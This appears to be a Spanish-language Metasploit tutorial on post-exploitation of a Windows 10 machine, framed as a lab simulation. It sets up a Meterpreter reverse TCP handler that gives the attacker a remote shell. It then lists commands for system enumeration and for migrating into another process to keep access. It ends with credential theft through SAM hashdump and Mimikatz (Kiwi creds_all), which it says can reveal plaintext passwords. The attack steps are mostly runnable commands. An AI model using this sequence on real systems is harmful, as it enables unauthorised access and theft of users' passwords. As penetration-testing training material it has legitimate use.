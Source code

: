 ##### 💥 1. EXPLOTACIÓN INICIAL (CONSEGUIR ACCESO)

Simulamos que ya conseguimos acceso remoto con Meterpreter.

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <tu_IP_Kali>
set LPORT 4444
run
```

Y ahora en la víctima (Win10) ejecutamos un payload para conectarse:

```powershell
# Simulación: Victima hace doble clic en un ejecutable malicioso
```

---

### ✅ POST-EXPLOTACIÓN: PASO A PASO

#### 1️⃣ Enumeración del sistema

```bash
sysinfo          # Muestra info del sistema
getuid           # Usuario actual
ipconfig         # IPs de la máquina víctima
```

#### 2️⃣ Ver procesos activos

```bash
ps               # Lista procesos en ejecución
```

💡 Puedes usar `migrate <pid>` para moverte a otro proceso y mantener acceso más estable.

---

#### 3️⃣ Obtener usuarios y contraseñas

##### Dump de SAM (contraseñas locales de Windows)

```bash
hashdump         # Solo si tienes privilegios altos
```

##### Volcado de credenciales con Kiwi (Mimikatz)

```bash
load kiwi
creds_all
```

⚠️ Esto puede revelar contraseñas en texto plano si hay sesiones activas.

---
